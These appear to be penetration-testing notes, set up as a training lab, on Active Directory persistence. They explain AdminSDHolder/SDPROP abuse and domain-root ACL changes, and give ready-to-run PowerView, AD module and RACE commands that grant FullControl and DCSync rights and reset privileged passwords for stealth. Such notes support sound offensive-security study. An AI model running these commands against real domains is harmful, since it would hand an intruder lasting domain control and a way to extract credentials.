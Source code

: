 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ACLs

## AdminSDHolder

In Active Directory, the [**`AdminSDHolder`**](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory#adminsdholder) object is a critical mechanism for securing privileged accounts. Located within the System container of a domain, `AdminSDHolder` acts as a template for Access Control Lists (ACLs) applied to members of [Protected Groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory#protected-groups)—such as Domain Admins (DA), Enterprise Admins (EA), and others. **This object is owned by the DA group**, though the Local Administrators and EA groups can also assume ownership.

The [Security Descriptor Propagator](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory#sdprop) (`SDPROP`) is a built-in process that runs every 60 minutes. It synchronizes the ACLs of protected users and groups by overwriting their security descriptors with the one set on `AdminSDHolder`. Any changes made directly to these group ACLs will be reverted.

An attacker with DA privileges can alter the `AdminSDHolder` ACL to include a compromised user account with full access rights. This ensures that `SDPROP` will propagate those rights to all protected accounts on each run.

{% tabs %}
{% tab title="PowerView" %}
Add `FullControl` permissions to the `AdminSDHolder` object (as a DA):

{% code overflow="wrap" fullWidth="false" %}
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student337 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local
```
{% endcode %}

Confirm the modification:

{% code overflow="wrap" %}
```powershell
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student337"}
```
{% endcode %}

Instead of granting full rights via `GenericAll`, specific permissions like `ResetPassword` or `WriteMembers` can be used for more stealthy access:

{% code overflow="wrap" %}
```powershell
# Abuse the ResetPassword permissions
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "P@assw0rd123!" -AsPlainText -Force) -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="AD & RACE" %}
Add `FullControl` permissions to the `AdminSDHolder` object (as a DA) using the AD module and [RACE toolkit](https://github.com/samratashok/RACE)

{% code overflow="wrap" %}
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student337 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local'
```
{% endcode %}

Confirm the modification:

{% code overflow="wrap" %}
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins, CN=Users, DC=dollarcorp, DC=moneycorp, DC=local').Access | ?{$_.IdentityReference -match 'student337'}
```
{% endcode %}

Instead of granting full rights via `GenericAll`, specific permissions like `ResetPassword` or `WriteMembers` can be used for more stealthy access:

{% code overflow="wrap" %}
```powershell
# Abuse the ResetPassword permissions
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "P@assw0rd123!" -AsPlainText -Force) -Verbose
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Domain Root

Beyond `AdminSDHolder`, a user with DA privileges can **manipulate ACLs on the domain root** to escalate or persist access.

{% tabs %}
{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Assign FullControl rights
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student337 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local

# Assign DCSync rights
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student337 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local
```
{% endcode %}
{% endtab %}

{% tab title="AD module & RACE" %}


{% code overflow="wrap" %}
```powershell
# Assign FullControl rights
Set-ADACL -SamAccountName student337 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose

# Assign DCSync rights
Set-ADACL -SamAccountName student337 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```
{% endcode %}
{% endtab %}
{% endtabs %}
